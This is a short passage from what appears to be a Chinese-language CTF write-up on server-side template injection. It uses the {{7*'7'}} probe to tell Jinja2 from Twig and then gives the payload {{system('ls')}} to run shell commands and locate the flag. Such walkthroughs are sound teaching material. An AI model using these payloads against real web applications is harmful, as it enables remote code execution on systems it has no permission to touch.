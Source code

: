只需要做`{{7*'7'}}`，返回7777777表示是 Jinja2 模块

这里不是，判断是Twig 模块，表示后端是PHP

```
{{system('ls')}}
```

![image-20250820074137283](./NSSCTF-6.assets/image-20250820074137283.png)

一样找到flag



最后有一张图

![image-20250820074205855](./NSSCTF-6.assets/image-20250820074205855.png)
